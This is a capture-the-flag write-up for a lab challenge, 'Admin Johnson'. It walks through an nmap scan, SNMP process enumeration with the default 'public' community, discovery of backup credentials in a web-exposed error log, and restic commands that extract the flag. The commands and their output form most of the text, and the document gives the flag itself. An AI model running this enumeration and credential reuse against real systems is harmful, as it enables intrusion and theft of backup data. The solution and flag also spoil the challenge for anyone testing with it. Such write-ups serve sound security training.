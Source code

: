 # Admin Johnson
## Description

![](img/20241105165012.png)

## Solution

Initial nmap scan on the target server reveals that there's a webserver running on port 80 and SNMP mulitplexer on port 199.

```
$ nmap -p- -sV johnson-backup.cypherfix.tcc                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 10:57 EST
Nmap scan report for johnson-backup.cypherfix.tcc (10.99.24.30)
Host is up (0.0057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.62 ((Debian))
199/tcp open  smux    Linux SNMP multiplexer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```

The exposed SNMP service can be exploited to gather information about processes running on the server. The list of processes shows that there's a backup script running on the server called `restic.sh`. Output of this script is redirected to an error log which is placed in a directory within the webserver's root.

```
$ snmpwalk -v1 -c public johnson-backup.cypherfix.tcc
iso.3.6.1.2.1.25.4.2.1.1.1 = INTEGER: 1
iso.3.6.1.2.1.25.4.2.1.1.7 = INTEGER: 7
iso.3.6.1.2.1.25.4.2.1.1.8 = INTEGER: 8
...
iso.3.6.1.2.1.25.4.2.1.5.7 = STRING: "/usr/sbin/apache2ctl -D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.8 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.9 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.14 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.18 = STRING: "-c /etc/scripts/restic.sh >> /var/www/html/1790c4c2883ad30be0222a3a93004e66/restic.err.log 2>&1"
iso.3.6.1.2.1.25.4.2.1.5.20 = STRING: "/etc/scripts/restic.sh"
iso.3.6.1.2.1.25.4.2.1.5.28 = STRING: "-D FOREGROUND"
...
iso.3.6.1.2.1.25.4.2.1.7.3281 = INTEGER: 2
End of MIB
```

This error log contains, except for the script errors, also the initial backup command utilizing `restic`. This command includes the credentials to the backup server.

![](img/20241105163123.png)

Using the command as is gives a bunch of 500 errors same as the error log shows. This is due to the backend not being able to create a lock on the repository as stated at the end of the error log (*unable to create lock in backend*). Solution to this problem is using `restic` with the `--no-lock` option. With this option the `check` subcommand completes successfully.

```
$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test -p <(echo KGDkjgsdsdg883hhd) --no-lock check
using temporary cache in /tmp/restic-check-cache-1511361735
repository 902ea39d opened (version 2, compression level auto)
created new cache in /tmp/restic-check-cache-1511361735
load indexes
[0:00] 100.00%  1 / 1 index files loaded
check all packs
check snapshots, trees and blobs
[0:00] 100.00%  1 / 1 snapshots
no errors were found
```

Using other subcommands, the repository can be further analyzed. Command `list snapshots` shows that there's only a single snapshot.

```
$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test -p <(echo KGDkjgsdsdg883hhd) --no-lock list snapshots                                                     
repository 902ea39d opened (version 2, compression level auto)
8dfb6a02f22d1a2b99add7f37cf2bef54e374edc2a79530f5e5c15897c67d530
```

Listing files with `ls` shows only a single file, which is the flag file.

```
$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test -p <(echo KGDkjgsdsdg883hhd) --no-lock ls 8dfb6a02f22d1a2b99add7f37cf2bef54e374edc2a79530f5e5c15897c67d530
repository 902ea39d opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
snapshot 8dfb6a02 of [/etc/secret] at 2024-10-14 20:56:18.631782921 +0000 UTC by root@fcf671955256 filtered by []:
/etc
/etc/secret
/etc/secret/flag
```

Now, listing the blobs in the repository reveals the ID of the single data blob which is the file with the flag. The ID of that blob is `01d81266ad2ee1e23652cefebe4e11d06c4c438f8444d204ef0a891bfa32d686`.

```
$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test -p <(echo KGDkjgsdsdg883hhd) --no-lock list blobs                                                         
repository 902ea39d opened (version 2, compression level auto)
data 01d81266ad2ee1e23652cefebe4e11d06c4c438f8444d204ef0a891bfa32d686
tree 905defa961c8271721ca986318235812d275d378765eb50bb83f646dfcd6a0e1
tree 46853d09fe11e73e052d7bf19e28b7dc4d63c64f655d7c937c746db11056a4bf
tree cb30792708ef19affd1e05bdd101a36adc0d478bea57cbf65fc385910c9068c0
```

Finally, with this ID, it is possible to print the contents of the blob using the `cat blob` command.

```
$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test -p <(echo KGDkjgsdsdg883hhd) --no-lock cat blob 01d81266ad2ee1e23652cefebe4e11d06c4c438f8444d204ef0a891bfa32d686                 
repository 902ea39d opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
FLAG{OItn-zKZW-cht7-RNH4}
```

## Flag

`FLAG{OItn-zKZW-cht7-RNH4}`